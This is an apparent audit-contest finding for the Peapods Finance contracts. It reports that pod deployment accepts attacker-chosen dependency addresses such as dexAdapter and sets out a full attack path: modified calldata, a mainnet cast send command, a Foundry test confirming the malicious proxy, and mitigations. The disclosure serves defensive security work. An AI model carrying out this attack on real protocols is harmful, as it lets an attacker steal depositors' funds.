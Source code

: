 Nutty Steel Sealion

High

# Attacker can steal users' funds by using malicious pod configuration

### Summary

When deploying a pod, an attacker can override core dependency implementation addresses and later exploit them to steal users' funds.

### Root Cause

On all layers of pod deployment, in [`IndexManager.sol:34`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/IndexManager.sol#L34), [`WeightedIndexFactory.sol:51`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/WeightedIndexFactory.sol#L51), and [`WeightedIndex.sol:32`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/WeightedIndex.sol#L32), permissionless allowed to provide immutable options/addresses that help the pod function properly, such as:

- `feeRouter`
- `rewardsWhitelister`
- `v3TwapUtils`
- `dexAdapter`

and others.

When deploying a pod using the frontend app, the UI doesn't allow changing these parameters, and the addresses are set to predefined values. However, on the contract side, there is no check to ensure that these values have not been altered, allowing an attacker to adjust the deployment calldata and provide a malicious version of these components.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. The attacker initiates a pod deployment process, fills in all parameters, and presses the deploy button.
2. The attacker finds the `dexAdapter` address in the deployment calldata.
3. The attacker deploys a proxy with an implementation pointing to the original `dexAdapter`.
4. The attacker changes the `dexAdapter` address in the calldata to the malicious proxy address.
5. The attacker sends the deployment transaction.
6. At this point, the new pod is deployed and publicly visible on the official site. The pod uses the original version of `dexAdapter` and functions as expected, despite the fact that `dexAdapter` is now under the proxy controlled by the attacker and can be updated at any time.
7. The attacker can then provide liquidity and pretend that the pool is entirely legitimate.
8. The `dexAdapter` is used when users provide or remove liquidity. At any time, the attacker can update the proxy implementation and steal user funds.

### Impact

The attacker can exploit the protocol’s reputation to deceive users, using a seemingly legitimate pod to steal user funds.

### PoC

1. Initiate a pod deployment process.

<img width="450" alt="Image" src="https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/b2d28393-7029-4aa6-92a0-9efa06c2f194" />

2. Grab the calldata from the transaction and find the `dexAdapter` address.

<img width="450" alt="Image" src="https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/c1848fac-33d7-4662-87bf-b779312d5a41" />

3. Change the `dexAdapter` address to a custom implementation. 

```diff
0xc209bf03
000000000000000000000000833589fcd6edb6e08f4c7c32d4f71b54bda02913
00000000000000000000000000000000000000000000000000000000000000c0
0000000000000000000000000000000000000000000000000000000000000560
0000000000000000000000000000000000000000000000000000000000000680
...
000000000000000000000000fa9d58222f4b7b9760e7d57422e19314cfe0296f
000000000000000000000000920093009684af7780616924b1893c90e4c9bdc0
- 0000000000000000000000007ada1f2040ad2d2b608d1b853de8a5d997eff024
+ 0000000000000000000000001c66b23ed2d13754965dd7a70d23a278371795fc
0000000000000000000000000000000000000000000000000000000000000100
000000000000000000000000eb81ae1b2baa663bcdd46e36278d058aa147f708
...
0000000000000000000000000000000000000000000000000000000000014585
0000000000000000000000000000000000000000000000000000000000002710
0000000000000000000000000000000000000000000000000000000000002328
00000000000000000000000000000000000000000000000000000000000003e8
```

4. Send the transaction with the altered data.

```bash
cast send 0xc979380b02A7DE52788bCC366fE550BFff253fb7 --private-key=$TEST_ACCOUNT --rpc-url=$BASE_MAINNET 0xc209bf03...000003e8
```

5. The pod is publicly available.

<img width="450" alt="Image" src="https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/ab3fd3dc-12ba-4e99-a046-27ff0baded69" />

6. Check the configuration.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Test, console2} from "forge-std/Test.sol";

interface IDecentralizedIndex {
    function DEX_HANDLER() external view returns (address);
}

contract PoC is Test {
    address pod = 0x261eC5b6E62035c3d3301C69e6Cb0682ecc22760;
    bytes32 IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    function test_MaliciousConfig() public view {
        address maliciousProxy = IDecentralizedIndex(pod).DEX_HANDLER();
        address implementation = address(uint160(uint256(vm.load(maliciousProxy, IMPLEMENTATION_SLOT))));
        console2.log("Malicious proxy:", maliciousProxy);
        console2.log("Implementation:", implementation, "(UniswapDexAdapter)");
    }
}
```

```bash
Logs:
  Malicious proxy: 0x1C66B23ED2D13754965dD7a70d23A278371795Fc
  Implementation: 0x7adA1f2040ad2d2b608d1b853De8A5D997efF024 (UniswapDexAdapter)
```

_Note: The proxy contract shown in the PoC was deployed with the `0xdead` admin address, so the pod is safe to use._

### Mitigation

To prevent this attack:  
- Remove parameters that should not be user-defined from the deploy function.  
- Store these parameter values in the manager/factory contract.  
- Allow only a permissioned role to modify these parameters if needed.  